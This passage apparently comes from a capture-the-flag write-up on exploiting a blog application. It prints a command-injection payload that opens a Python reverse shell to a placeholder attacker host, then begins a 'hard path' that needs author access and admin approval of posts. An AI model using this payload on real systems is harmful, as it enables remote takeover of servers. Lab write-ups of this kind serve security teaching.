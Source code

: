 
Therefore, we get a reverse shell from it by injecting the following bash command
```sh
"; python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("your.attacker.machine.ip",attacker_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")' # 
```
## 🔴 Hard path
To exploit the hard path we have to take the same steps of the medium path, so we have to be logged in as an author of the blog (any). As an author of the blog, we can publish posts from the `/YWRtaW4K/new-article` page

![Publishing new posts](images/tgc/medium/new_article.png)

However, we don’t have complete control over what we post, as upon pressing ‘post article’, our post will have to be checked by an administrator for approval… boring!

![Publishing new posts](images/tgc/medium/article_processing.png)